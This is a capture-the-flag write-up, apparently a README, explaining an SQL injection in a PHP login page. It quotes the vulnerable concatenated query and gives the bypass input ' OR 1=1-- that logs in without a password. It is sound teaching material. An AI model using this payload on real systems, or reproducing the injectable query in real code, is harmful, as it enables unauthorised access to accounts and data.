

# SQL injection CTF

We started by reading the code in the file index.php.

We identified that this SQL query is executed every time a user tries to login.

```php
$query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
```
The username and the password are directly given by user input. In fact, the password is not even encrypted when making the query.
```php
$username = $_POST['username'];
$password = $_POST['password'];
```
This means that we can manipulate both username and password in order to execute different than expected SQL queries.

We simply used the username field to manipulate the query and gave this input:
```
username: ' OR 1=1--
password: abc
```
The password does not make a difference, but since the HTML password field is required, we just gave it a random value.

The actual SQL query that is executed on the database is:
```sql
SELECT username FROM user WHERE username = '' OR 1=1--' AND password = 'abc'
```

This query returns the usernames of all users in the table `user` since the condition `1=1` is always true.

Since the only verification done is that the query returns something, we can use this to login as a user.
```php
if ($result = $conn->query($query)) {
```

If we are logged in, we will have access to the flag. Indeed, the flag is stored in the file flag.txt, which is included in the index.php file if the user is logged in.
```php
include "/flag.txt";
```

So, after using this exploit, we get the flag.
| Input | Flag |
|:-:|:-:|
|  |  |